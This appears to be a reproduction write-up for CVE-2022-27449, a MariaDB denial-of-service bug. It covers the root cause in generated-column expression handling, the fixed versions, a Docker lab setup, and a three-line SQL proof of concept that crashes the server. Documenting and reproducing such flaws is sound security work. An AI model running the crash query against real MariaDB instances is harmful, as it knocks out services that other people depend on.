



# CVE-2022-27449 MariaDB segment error

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
`Item_func` when a generated column or correlation comparison containing mixed types and function calls (for example, a `IN` list with both literal and `database()`, `date_format()`, `if()`, etc.) is parsed/evaluated insufficient parameter checking/initialization, causing some execution branches to access uninitialized or null pointers, which can trigger assertions or segmentation faults (service crashes).

## Vulnerability Location

The crash is reached while MariaDB reparses and fixes the expression of a virtual/generated column after reopening a table. In the vulnerable implementation, `Virtual_column_info::expr` and some child `Item` objects can be allocated in different arenas. When the statement arena is released, the cached generated-column expression can therefore retain stale child pointers. Evaluating the column later through `select b from t1` or using it in `ORDER BY` reaches those stale objects and can terminate the server.

The relevant code is the virtual-column expression lifecycle in `sql/table.cc`, especially `parse_vcol_defs()` and the table expression arena, together with the expression-fixing logic in `sql/item.cc`. Upstream commit `08c7ab404f69d9c4ca6ca7a9cf7eec74c804f917` fixes the shared root cause tracked as MDEV-24176; its regression tests explicitly include MDEV-28089 and the same generated-column query used by this CVE. The patch ensures reparsing and refixing occur in `TABLE::expr_arena`, prepares a valid virtual-column name-resolution context, and avoids retaining expression items owned by a released statement arena.

## Remediation

Upgrade to MariaDB 10.3.35, 10.4.25, 10.5.16, 10.6.8, 10.7.4, or a later maintained release. The upstream fix corrects the invalid expression/table-metadata state that allowed the affected evaluation path to dereference an object after its owning statement context had been rebuilt.

No robust server option disables only the vulnerable path. Before upgrading, restrict untrusted DDL and the creation of generated-column or expression metadata, and avoid executing the known crash query on production instances. Monitor for repeated connection loss or server restarts, which may indicate attempted exploitation.

## Affected Versions
**Affected version:** MariaDB:

- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and PoC file `CVE-2022-27449-PoC.sql` already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file `CVE-2022-27449-PoC.sql`. The connection is closed when the server process crashes.

```sql
source CVE-2022-27449-PoC.sql
```



4. Check the MariaDB crash log. The stale generated-column expression results in an invalid memory access and denial of service.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
create table t1 (a int , b date as (1 in ('x' ,(database ()) ))) ;
select b from t1;
select a from t1 order by 'x' = b;
```

## References
[NVD - CVE-2022-27449](https://nvd.nist.gov/vuln/detail/CVE-2022-27449)

[MDEV-28089: MariaDB crash in generated-column expression](https://jira.mariadb.org/browse/MDEV-28089)

[Upstream fix for the shared virtual-column expression-lifetime bug](https://github.com/MariaDB/server/commit/08c7ab404f69d9c4ca6ca7a9cf7eec74c804f917)
